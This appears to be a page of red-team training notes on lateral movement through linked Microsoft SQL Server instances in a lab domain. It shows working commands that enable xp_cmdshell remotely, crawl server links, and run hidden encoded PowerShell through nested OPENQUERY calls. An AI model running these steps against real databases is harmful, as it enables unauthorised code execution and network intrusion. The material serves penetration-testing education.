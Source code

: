 ```
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [target instance]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [target instance]
```

Manually querying databases to find links can be cumbersome and time-consuming, so you can also use `Get-SQLServerLinkCrawl` to automatically crawl all available links.

```
beacon> powershell Get-SQLServerLinkCrawl -Instance "srv-1.dev.cyberbotic.io,1433"

Version     : SQL Server 2016 
Instance    : SRV-1
CustomQuery : 
Sysadmin    : 1
Path        : {SRV-1}
User        : DEV\bfarmer
Links       : {SQL-1.CYBERBOTIC.IO}

Version     : SQL Server 2016 
Instance    : SQL-1
CustomQuery : 
Sysadmin    : 1
Path        : {SRV-1, SQL-1.CYBERBOTIC.IO}
User        : sa
Links       : {SQL01.ZEROPOINTSECURITY.LOCAL}

Version     : SQL Server 2019 
Instance    : SQL01\SQLEXPRESS
CustomQuery : 
Sysadmin    : 1
Path        : {SRV-1, SQL-1.CYBERBOTIC.IO, SQL01.ZEROPOINTSECURITY.LOCAL}
User        : sa
Links       :
```

This output shows a chain from `SRV-1 > SQL-1.CYBERBOTIC.IO > SQL01.ZEROPOINTSECURITY.LOCAL`, the links are configured with local `sa` accounts, and we have sysadmin privileges on each instance.

To execute a shell command on `sql-1.cyberbotic.io`:
```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah''')
```
And to execute a shell command on `sql01.zeropointsecurity.local`, we have to embed multiple OpenQuery statements.
```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select * from openquery("sql01.zeropointsecurity.local", ''select @@servername; exec xp_cmdshell ''''powershell -enc blah'''''')')
```


### Privilege Escalation

^33c580
